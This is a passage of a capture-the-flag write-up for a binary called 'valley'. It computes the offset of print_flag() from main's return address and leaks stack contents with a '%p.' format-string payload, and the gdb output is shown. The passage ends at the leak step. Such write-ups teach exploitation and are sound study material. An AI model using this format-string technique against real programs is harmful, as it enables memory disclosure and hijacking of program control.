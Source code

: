 Finding the offsets of the return local to `main()` (or `<main+18>`) from the `echo_valley()` function and `print_flag()` functions:

    $ readelf -s ./valley | egrep "main|print_flag"
        40: 0000000000001401    25 FUNC    GLOBAL DEFAULT   16 main
        43: 0000000000001269   158 FUNC    GLOBAL DEFAULT   16 print_flag

    $ objdump -M intel -d valley > objdump_valley.txt

From the `objdump` output:

      0000000000001401 <main>:
          1401: f3 0f 1e fa           endbr64 
          1405: 55                    push   rbp
          1406: 48 89 e5              mov    rbp,rsp
          1409: b8 00 00 00 00        mov    eax,0x0
          140e: e8 f4 fe ff ff        call   1307 <echo_valley>
    ->    1413: b8 00 00 00 00        mov    eax,0x0
          1418: 5d                    pop    rbp
          1419: c3 

So, we can calculate a relative offset of `print_flag()` (`0x1269`) from `<main+18>` (`0x1413`) :

    0x1413 - 0x1269 = 0x1AA

Running `valley` in `gdb` to discover and construct our infoleak format string:

    $ gdb ./valley

    > br main
    > r

When execution breaks, we can take note of the return address from `echo_valley()` at `<main+18>`, which is `0x555555555413`.

    ─────────────────────────────────────────────────────────────── code:x86:64 ────
       0x555555555401 <main+0>         endbr64 
       0x555555555405 <main+4>         push   rbp
       0x555555555406 <main+5>         mov    rbp, rsp
    -> 0x555555555409 <main+8>         mov    eax, 0x0
       0x55555555540e <main+13>        call   0x555555555307 <echo_valley>
       0x555555555413 <main+18>        mov    eax, 0x0
       0x555555555418 <main+23>        pop    rbp
       0x555555555419 <main+24>        ret    
       0x55555555541a                  add    BYTE PTR [rax], al

Continuing execution within `gdb` and prompted for input to "shout", I used the typical format string infoleak attack to display contents of the stack. The format string I constructed for convenience via the python CLI, such that I could copy & paste it.

    $ python3 -c "print('%p.'*30)"
    %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.

Back to `gdb`:

    > c
    Continuing.
    Welcome to the Echo Valley, Try Shouting: 
    %p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.
    You heard in the distance: 0x5555555560c1.(nil).0x7ffff7e16a00.(nil).0x5555555596b0.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0xa2e70.0x7fffffffe3f9.0x104bb88301417e00.0x7fffffffdfc0.0x555555555413.0x1.0x7ffff7c29d90.(nil).0x555555555401.0x1ffffe0c0.0x7fffffffe0d8.(nil).0xb41410ea8dc31158.0x7fffffffe0d8.
